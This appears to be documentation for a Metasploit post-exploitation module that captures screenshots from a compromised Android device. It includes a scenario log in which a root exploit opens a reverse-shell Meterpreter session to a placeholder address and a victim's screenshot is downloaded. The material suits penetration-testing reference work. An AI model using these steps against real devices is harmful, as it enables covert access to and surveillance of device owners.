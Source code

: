 ## Description

  This module takes a screen capture with the Android built-in application to live off the land.
  `shell` or `root` access is required.

## Verification Steps

  1. Start msfconsole
  2. Get `shell` or `root` access on an Android device
  3. Do: ```use post/android/capture/screen```
  4. Do: ```set session [session]```
  5. Do: ```run```
  6. You should get a screen capture saved to your device.

## Options

  **EXE_PATH**

  Path to the `screencap` executable on Android device. Default is `/system/bin/screencap`.

  **TMP_PATH**

  Path to temp directory on Android device to save the screenshot to temporarily. Default is `/data/local/tmp/`.

## Scenarios

### Samsung Galaxy S3 Verizon (SCH-I535 w/ Android 4.4.2, kernel 3.4.0)

Utilizing futex_requeue to get root access.

  ```
msf exploit(android/local/futex_requeue) > run

[*] Started reverse TCP handler on 111.111.1.111:4444
[*] Using target: New Samsung
[*] Loading exploit library /data/data/com.metasploit.stage/files/cbvzt
[*] Loaded library /data/data/com.metasploit.stage/files/cbvzt, deleting
[*] Waiting 300 seconds for payload
[*] Sending stage (904600 bytes) to 222.222.2.222
[*] Meterpreter session 4 opened (111.111.1.111:4444 -> 222.222.2.222:58577) at 2019-10-22 16:04:31 -0400

meterpreter > getuid
Server username: uid=0, gid=0, euid=0, egid=0
meterpreter > background
[*] Backgrounding session 4...
msf exploit(android/local/futex_requeue) > use post/android/capture/screen
msf post(android/capture/screen) > set session 4
session => 4
msf post(android/capture/screen) > run

[!] SESSION may not be compatible with this module.
[+] Downloading screenshot...
[+] Screenshot saved at /root/.msf4/loot/20191022161242_default_222.222.2.222_screen_capture.s_496457.png
[*] Post module execution completed
  ```

![20191022161242_default_192 168 2 14_screen_capture s_496457](https://user-images.githubusercontent.com/752491/67612706-d433ae80-f772-11e9-8344-30020515299e.png)

